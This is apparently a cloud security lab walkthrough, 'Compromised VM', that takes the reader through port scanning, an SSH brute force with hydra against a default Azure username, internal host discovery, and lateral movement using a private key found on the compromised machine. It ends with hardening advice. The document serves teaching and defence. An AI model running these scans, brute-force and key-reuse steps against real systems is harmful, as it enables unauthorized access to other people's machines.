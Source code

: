 # Lab 01: Compromised VM

## Step 1: Connecting to the VM

1. **Check for open ports**:
   We can use nmap to scan for any open ports on our target IP address.

   ```bash
   nmap -sS -Pn <Public_IP>
   ```

    >[!NOTE]
    **-sS:** Performs a stealthy SYN scan to detect open ports.  
    **-Pn:** Skip ping sweep

2. **Attempt SSH**:  
    We see that port 22 is open, so Let’s start by trying to ssh into the VM:

    ```bash
    ssh azureuser@<Public_IP>
    ```

    If it prompts for a password, this indicates that the VM is not using a     secure authentication method like SSH keys. Let's try to crack the  password.

## Step 2: Crack the Password

1. **Check Hosting Information**:  
   We can use a site like [hostingchecker.com](https://hostingchecker.com) to determine if the machine is hosted in the cloud.  

   - If the machine is hosted on Azure, the default username is often `azureuser`, so let's try using that username first.

2. **Brute Force the Password**:  
   Tools like `hydra`, `ncrack`, and `medua` can be used for brute-forcing logins. Let's use `hydra` to perform our attack. We will need to provide a username and a list of passwords to try against. Let's try the 200 most common passwords of 2023 from [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2023-200_most_used_passwords.txt):

   ```bash
   hydra -l azureuser -P /path/to/common_passwords.txt ssh://<Public_IP>
   ```

    > [!NOTE]
    **-l azureuser:** Specifies the username to use for the attack.  
    **-P /path/to/common_passwords.txt:** Points to a file containing a     list of common passwords.  
    **ssh://<Public_IP>:** Specifies the method and IP address.

## Step 3: Access the VM

Now, use the cracked credentials to SSH into the VM:

```bash
ssh azureuser@<Public_IP>
```

🎉 You’ve officially gained access to the VM! Remember, use your powers for good and always wear a white hat. But we’re not done yet—let’s explore further.

## Step 4: Explore the Network

There doesn't seem to be anything of use to us on this vm, so let's dig into the network.

### 4.1: Understanding the VM’s Internal Network

Run the following to check the internal IP of the current VM:

```bash
ifconfig
```

You’ll likely see an internal IP in the 10.0.0.x range (common for Azure VNets). This means the VM is part of a private network.

### 4.2: Discover Other Devices on the Network

We’ll ping all devices in the 10.0.0.x range to identify active hosts. We can use `fping` or `nmap` to send bulk ICMP echo probes (pings).

```bash
fping -g 10.0.0.1 10.0.0.254
```

>[!NOTE]
**-g:** Specifies the range of IPs to ping (e.g., 10.0.0.1 to 10.0.0.254).  
**-a** Shows only reachable hosts.  
**-q** Runs quietly (suppresses output except results).  

or

```bash
nmap -sS 10.0.0.1-254
```

>[!NOTE]
**-sS:** Performs a stealthy SYN scan to detect open ports.

### 4.3: Filter Active Devices

The tools above will output the devices that responsed, but if you want to verify, use the ARP cache to find devices that responded:

```bash
arp -a | grep 10.0.0. | grep ether
```

>[!NOTE]
**arp -a:** Lists devices in the ARP cache.  
**grep 10.0.0.:** Filters for devices on the 10.0.0.x subnet.  
**grep ether:** Ensures only devices with MAC addresses are shown (ignoring unresolved pings).  

## Step 5: Lateral Movement to Another VM

Hopefully you were able to find another vm on the network. Let's try to connect to it.

### 5.1: Attempt SSH with Existing Credentials

Let's first try to SSH using the same username and password:

```bash
ssh azureuser@<Internal_IP>
```

### 5.2: Permission Denied? Look for a Private Key

Do you see `Permission denied (publickey)`? Looks like they tried to beef up their security by using SSH keys instead of a password. But since we're already inside the compromised vm, let’s check for an SSH private key.

Navigate to the .ssh directory and look for a private key file, such as id_rsa.pem.:

```bash
cd ~/.ssh
ls
```

### 5.3: Use the Private Key for SSH

If you find a private key, use it to attempt access to the new VM:

```bash
ssh -i path/to/key azureuser@<Internal_IP>
```

## Step 6: Explore the Second VM

🎉 You’re in! Time to explore this second VM:

- Look for sensitive files.
- Check permissions or configurations for vulnerabilities.
- Use tools like sudo -l to see if privilege escalation is possible.

## Remediation (Optional...but only for this lab, not irl)

After completing the exercise, feel free to use the vulnerabilities you learned about to secure the vms.

Suggestions for improved security include:

1. Use Strong Authentication:
   - Disable password-based SSH authentication and use key pairs instead.
   - Use a passphrase on top of your private keys.

2. Restrict Network Access:
    - Update NSG rules to allow SSH only from specific trusted IPs.
    - Remove any broad rules like Allow Any or unrestricted inbound access.

3. Connect via Bastion
    - If your vm does not require a public IP, delete the public IP and connect through Azure Bastion instead.

4. Monitor and Audit Logs:
    - Enable logging for SSH access and network activities.
    - Use Azure Monitor and Security Center to detect unusual login attempts.

5. Harden the VM:
    - Apply least privilege principles.
    - Regularly update and patch the VM.
